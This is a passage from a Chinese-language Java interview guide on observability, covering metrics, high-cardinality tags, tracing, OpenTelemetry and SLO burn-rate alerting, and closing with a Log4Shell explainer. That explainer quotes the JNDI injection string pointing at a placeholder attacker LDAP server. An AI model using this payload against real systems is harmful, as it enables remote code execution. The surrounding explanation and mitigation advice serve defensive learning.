| `DistributionSummary` | 记录非时间类数值的分布 | 请求体大小、订单金额 |
| `LongTaskTimer` | 正在运行中的长任务的数量和已运行时间 | 批处理任务 |

- **百分位不能跨实例求平均**：在应用内计算好的 P99（`publishPercentiles(0.99)`）只代表这一个实例，多个实例的 P99 求平均、求最大值，都得不到全局的 P99。正确做法是输出**直方图的桶**（`publishPercentileHistogram()`），由 Prometheus 把所有实例的桶加在一起后，再计算百分位（`histogram_quantile`）。

**深入剖析**

一个具体的例子：

| 实例 | 请求数 | 耗时分布 | 该实例的 P99 |
| --- | --- | --- | --- |
| A | 10000 | 9850 次 50ms，150 次 200ms | 200ms |
| B | 1000 | 900 次 50ms，100 次 2000ms | 2000ms |

- 两个 P99 的平均值是 1100ms；
- 把 11000 次请求合在一起计算，真实的全局 P99 是 **200ms**（以上数字已用脚本计算核对）。

两者差了 5 倍以上，按平均值告警会产生误报。

```java
Timer timer = Timer.builder("order.create")
        .description("下单耗时")
        .tag("channel", channel.name())   // 低基数的标签：渠道只有有限的几种
        .publishPercentileHistogram()     // 输出直方图的桶，由后端跨实例聚合后计算百分位
        .register(meterRegistry);
timer.record(() -> orderService.create(command));
```

**追问链**

1. **什么是 Observation API？** Micrometer 1.10 引入的 `Observation` 用一次埋点同时产生指标和链路追踪的 Span。Spring Boot 3 起，Spring 的 Web、RestClient、数据访问、MQ 客户端都基于它埋点，业务代码也可以用 `@Observed` 注解或 `Observation` API 埋点。
2. **Spring Cloud Sleuth 还能用吗？** 不能。Spring Cloud Sleuth 不支持 Spring Boot 3，它的功能由 Micrometer Tracing 接替。

---

### 32-08 指标的标签为什么不能用用户 ID？

> ★★ ｜ 资深 ｜ 高频

**考察意图**：是否理解"高基数"问题，这是指标系统最常见的事故原因之一。

**30 秒版回答**

- 指标的**每一种标签值组合**都是一条独立的时间序列，应用内存和监控系统都要为每条序列单独保存数据。
- 用用户 ID、订单号、请求 URL 中的具体参数（例如 `/orders/1001`）做标签，序列的数量就会随用户数、订单数无限增长（**高基数**），结果是：
  - 应用中的 Meter 越来越多，内存持续增长；
  - Prometheus 等系统的内存和存储被撑爆，查询变慢甚至崩溃。
- **标签只用取值有限的维度**：接口模板（`/orders/{id}`，Spring 默认就使用模板而不是实际路径）、HTTP 方法、状态码、渠道、错误类型。
- 需要按用户、订单查看的信息，放到**链路追踪的属性**或**日志**中。Observation API 中，低基数的键值（`lowCardinalityKeyValue`）同时进入指标和 Span，高基数的键值（`highCardinalityKeyValue`）只进入 Span，就是为了区分这两种情况。

**生产实践 / 踩坑**

- 防御措施：用 `MeterFilter.maximumAllowableTags` 限制某个指标的某个标签最多有多少种取值，超出后的新取值不再创建新的 Meter（已在本机用 Micrometer 1.16.4 运行验证：上限设为 10，先后注册 16 种取值，`order.create` 的 Timer 停在 10 个）。
- 一个隐蔽的来源是 404 请求：随机的不存在的路径如果被原样记录为标签，被扫描时就会产生大量序列。Spring 的默认埋点会把 404 请求的 `uri` 标签统一记为 `NOT_FOUND`、重定向记为 `REDIRECTION`（已核对 spring-web 7.0.7 的 `DefaultServerRequestObservationConvention`），自己写埋点时也要做同样的处理。

---

### 32-09 应该监控哪些指标？什么是 RED、USE 和黄金信号？

> ★★ ｜ 架构师 ｜ 中频

**考察意图**：能否系统地设计监控指标，而不是想到什么监控什么。

**30 秒版回答**

| 方法 | 对象 | 指标 |
| --- | --- | --- |
| **RED** | 服务（接口） | **R**ate 请求速率、**E**rrors 错误率、**D**uration 耗时分布 |
| **USE** | 资源（CPU、内存、磁盘、连接池、线程池） | **U**tilization 使用率、**S**aturation 饱和度（排队）、**E**rrors 错误 |
| **四个黄金信号**（Google SRE） | 面向用户的系统 | 延迟、流量、错误、饱和度 |

落到一个 Java 服务上：

| 层次 | 关键指标 |
| --- | --- |
| 业务 | 每分钟下单量、支付成功率、核心流程的转化率 |
| 接口 | 每个接口的 QPS、错误率、P99 耗时（RED） |
| 依赖 | 调用下游的耗时和错误率；**连接池等待获取连接的线程数**；MQ 的消费延迟（积压） |
| 应用资源 | 线程池的活跃线程数和队列长度；JVM 堆使用、GC 次数和停顿时间 |
| 主机 / 容器 | CPU（包括容器的 CPU 节流）、内存、磁盘、网络 |

**架构师加分点**

- **业务指标往往最先发现问题**：支付渠道出故障时，技术指标可能一切正常（接口很快就返回了失败），但"支付成功率"会立刻下降。核心业务指标应该和技术指标放在同一张大盘上。
- **饱和度比使用率更早预警**：连接池使用率 100% 本身不一定有问题，"有线程在排队等连接"才说明已经开始影响请求。

---

## 三、链路追踪

### 32-10 分布式链路追踪的原理是什么？

> ★★★ ｜ 资深 / 架构师 ｜ 高频

**考察意图**：是否理解 Trace、Span 和上下文传播。

**30 秒版回答**

- **Trace**：一个请求在整个系统中的完整调用过程，由一个全局唯一的 **traceId** 标识。
- **Span**：其中的一个操作（一次 HTTP 调用、一次数据库查询、一次消息消费），有自己的 spanId、父 Span 的 ID、名称、开始时间和结束时间、属性（attributes）和状态。所有 Span 通过父子关系组成一棵树。
- **上下文传播**：调用下游时，把 traceId 和当前的 spanId 放进请求头，下游据此创建子 Span。目前的标准是 **W3C Trace Context** 的 `traceparent` 请求头，Zipkin 生态早期使用 B3 格式。
- **埋点方式**：Java Agent 在字节码层面自动埋点（不修改代码），或者使用框架内置的埋点（Spring 的 Observation）。
- **上报与存储**：Span 结束后异步批量上报到后端（Jaeger、Zipkin、Grafana Tempo、SkyWalking 等），按 traceId 汇总，展示成瀑布图。

**深入剖析**

`traceparent` 的格式（示例来自 W3C 规范）：

```text
traceparent: 00-0af7651916cd43dd8448eb211c80319c-b7ad6b7169203331-01
             │  │                                │                └ 标志位：01 表示已采样
             │  │                                └ parent-id：调用方 Span 的 ID（16 个十六进制字符）
             │  └ trace-id：整条链路的 ID（32 个十六进制字符）
             └ 版本
```



所有 Span 的 traceId 相同，父子关系通过 parent-id 建立。从瀑布图上可以直接看出：这个请求的大部分时间花在支付渠道的 HTTP 调用上。

**追问链**

1. **异步调用和 MQ 中，链路怎么延续？** 和 MDC 一样，需要把上下文放进消息头，消费方取出后创建子 Span（或者用 Span Link 关联，因为消费可能发生在很久以后，不一定适合作为同一棵树中的子节点）。主流的 MQ 客户端都有现成的埋点。
2. **链路追踪对性能有多大影响？** 埋点本身的开销通常很小，主要的成本在 Span 的创建、上报和存储，所以需要采样，见 32-11。

---

### 32-11 链路追踪怎么采样？头部采样和尾部采样有什么区别？

> ★★ ｜ 架构师 ｜ 中频

**考察意图**：在成本和问题发现能力之间做取舍。

**30 秒版回答**

| | 头部采样 | 尾部采样 |
| --- | --- | --- |
| 何时决定 | 请求**刚进入系统**时决定是否采样，决定随 `traceparent` 的标志位传给下游 | 整条链路**结束后**，在收集端根据结果决定是否保留 |
| 优点 | 简单，开销小，不采样的请求不产生数据 | 可以**保留所有出错的、慢的链路**，正常的链路按比例采样 |
| 缺点 | 决定时还不知道请求会不会出错，罕见的错误链路很可能恰好没有被采到 | 收集端要缓存完整的链路数据，同一个 traceId 的所有 Span 必须发到同一个收集节点，成本和复杂度都更高 |

- Spring Boot 中默认的采样率是 **10%**（`management.tracing.sampling.probability` 默认值 0.10，已核对 Spring Boot 4.0.4 源码）。
- 尾部采样通常由 OpenTelemetry Collector 实现：在 Collector 前面按 traceId 做负载均衡，保证同一条链路的数据到达同一个节点。

---

### 32-12 OpenTelemetry 是什么？和 Micrometer、SkyWalking 是什么关系？

> ★★★ ｜ 架构师 ｜ 高频

**考察意图**：对可观测性技术栈现状的了解，以及选型能力。

**30 秒版回答**

- **OpenTelemetry**（简称 OTel）是 CNCF 的项目，由 OpenTracing 和 OpenCensus 在 2019 年合并而来，目标是成为可观测性数据的**统一标准**。它包括：
  - **API 和 SDK**：各种语言的埋点接口和实现；
  - **语义约定**：统一属性的命名，例如 `http.request.method`；
  - **OTLP 协议**：统一的数据传输协议；
  - **Collector**：独立部署的数据收集、处理（过滤、采样、脱敏）和转发组件；
  - **自动埋点**：Java Agent 不修改代码就能对主流框架埋点。
  
  它只负责产生和传输数据，**不负责存储和展示**。
- **和 Micrometer 的关系**：
  - Micrometer 是 Spring 生态的指标门面，Micrometer Tracing 是链路追踪门面，底层可以用 Brave 或 OpenTelemetry 实现，数据可以通过 OTLP 输出；
  - Spring Boot 4.0 新增了 `spring-boot-starter-opentelemetry`，用于把指标和链路追踪通过 OTLP 导出。
- **和 SkyWalking 的关系**：SkyWalking 是一个完整的 APM 产品，有自己的探针、后端存储和界面。它也支持接收 OpenTelemetry 格式的数据。

**深入剖析**

在 Spring Boot 应用中接入 OpenTelemetry，有两条路：

| 方式 | 优点 | 缺点 |
| --- | --- | --- |
| **OTel Java Agent** | 不改代码；覆盖的框架和库非常多 | 启动时多一个 Agent，版本需要和框架版本匹配；与 GraalVM 原生镜像不兼容 |
| **Spring Boot 内置（Micrometer + OTLP）** | 和 Spring 的埋点（Observation）天然集成；支持原生镜像 | 覆盖范围以 Spring 生态和 Micrometer 支持的库为准 |



**架构师加分点**

- 选择 OpenTelemetry 的核心价值是**避免厂商锁定**：埋点和数据格式标准化之后，后端存储可以按成本和需要更换，不需要重新埋点。
- Collector 是很重要的治理点：可以在这里统一做敏感信息脱敏、尾部采样和成本控制，而不需要修改每个应用。

---

## 四、告警与落地

### 32-13 告警怎么设计才不会"狼来了"？

> ★★★ ｜ 架构师 ｜ 高频

**考察意图**：告警疲劳是普遍问题，能否设计出有效的告警体系。

**30 秒版回答**

- **原则**：
  1. **对症状告警，而不是对原因告警**：用户能感知到的问题（错误率升高、延迟变长）才需要立即处理；CPU 高但用户没有受影响，可以只记录或者发工单；
  2. **每条告警都必须能采取行动**，并附上处理手册（Runbook）；
  3. **分级**：需要立即处理的（电话、即时通知）和可以工作时间处理的（工单）分开；
  4. **聚合和去重**：同一个根因引发的大量告警要合并，避免刷屏。
- **基于 SLO 燃烧率的告警**（Google SRE Workbook 推荐）：
  - 不直接对"错误率 > 1%"告警，而是看**错误预算消耗的速度**；
  - 例如 SLO 是 30 天 99.9%，错误预算是 0.1%（约 43 分钟）；
  - **燃烧率**是实际错误率与预算错误率之比，燃烧率为 1 表示刚好在 30 天内用完预算。

**深入剖析**

SRE Workbook 中针对 99.9% SLO 推荐的起始参数：

| 级别 | 长窗口 | 短窗口 | 燃烧率 | 触发时已消耗的错误预算 |
| --- | --- | --- | --- | --- |
| 立即处理 | 1 小时 | 5 分钟 | 14.4 | 2% |
| 立即处理 | 6 小时 | 30 分钟 | 6 | 5% |
| 工单 | 3 天 | 6 小时 | 1 | 10% |

- **长窗口**保证问题足够严重，不会因为短暂的毛刺就告警；
- **短窗口**（约为长窗口的 1/12）保证问题**仍在发生**：故障恢复后，告警能很快自动解除，而不是在长窗口内一直响着。
- 以第一行为例：1 小时内的错误率超过 14.4 × 0.1% = 1.44%，并且最近 5 分钟也超过这个值，就触发告警。此时已经消耗了 30 天错误预算的 2%（14.4 × 1 小时 ÷ 720 小时）。

---

### 32-14 从零为一个系统搭建可观测性体系，怎么做？

> ★★ ｜ 架构师 ｜ 中频

**考察意图**：能否给出有优先级、可落地的建设路径。

**30 秒版回答**

按收益从高到低推进：

1. **统一日志**：统一使用 SLF4J，输出结构化日志，每条日志都带 traceId 和服务名，集中采集到日志平台；
2. **核心指标和大盘**：入口接口的 RED 指标、关键依赖（数据库、缓存、MQ、下游服务）、JVM 和线程池、核心业务指标；
3. **链路追踪**：接入 OpenTelemetry 或 Micrometer Tracing，设置合理的采样率，确保跨服务、跨线程、跨 MQ 的上下文传播是完整的；
4. **三者关联**：从指标可以跳到链路，从链路可以跳到日志；
5. **SLO 和告警**：为核心链路定义 SLO，配置燃烧率告警，每条告警写好处理手册；
6. **持续治理**：控制高基数指标和日志量；故障复盘时检查"这次的问题，能不能更早发现、更快定位"，把缺少的数据补上。

**架构师加分点**

- 可观测性建设的验收标准不是"接入了多少工具"，而是**平均故障发现时间（MTTD）和平均故障恢复时间（MTTR）有没有下降**。每次故障复盘都应该回答这两个问题。

---

### 32-15 Log4Shell 漏洞是怎么回事？给我们什么教训？

> ★★ ｜ 资深 ｜ 中频

**考察意图**：对重大安全事件的了解，以及从中总结的工程经验。

**30 秒版回答**

- **CVE-2021-44228**（2021 年 12 月公开，CVSS 评分 10.0，最高级别），影响 **log4j-core** 2.0-beta9 到 2.14.1（Java 8 及以上版本在 2.15.0 修复）。只依赖 log4j-api、不包含 log4j-core 的应用不受影响。
- **原理**：Log4j2 支持在日志内容中使用 `${...}` 形式的 **Lookup**，其中包括 JNDI Lookup。攻击者只要让应用把一段可控的字符串记录到日志中（例如请求头中的 User-Agent、用户名），内容是 `${jndi:ldap://攻击者的服务器/a}`，Log4j 就会去访问攻击者的 LDAP 服务器，进而加载并执行远程代码。
- **后续修复**：2.15.0 的修复在某些非默认配置下不完整（CVE-2021-45046），2.16.0 默认禁用了 JNDI 并移除了日志消息中的 Lookup；之后又修复了递归 Lookup 导致的拒绝服务（CVE-2021-45105）等问题。应升级到官方公告中的最新安全版本。

**深入剖析**



**教训**

1. **掌握依赖清单**（SBOM）：漏洞公开后，第一个问题是"我们哪些服务、哪些版本用到了 log4j-core"，包括间接依赖。能在几小时内回答这个问题的团队，修复速度远快于需要逐个项目排查的团队；
2. **快速发布的能力**：依赖升级、构建、发布的流水线要足够自动化，紧急修复才能在当天覆盖所有服务；
3. **不要解释不可信的输入**：日志框架"执行"了日志内容中的表达式，这是根本问题。自己的代码也要避免类似的设计（模板注入、表达式注入）；
4. **纵深防御**：限制服务器主动访问外网（出站白名单），即使存在漏洞，攻击链也会在"访问攻击者服务器"这一步被切断。
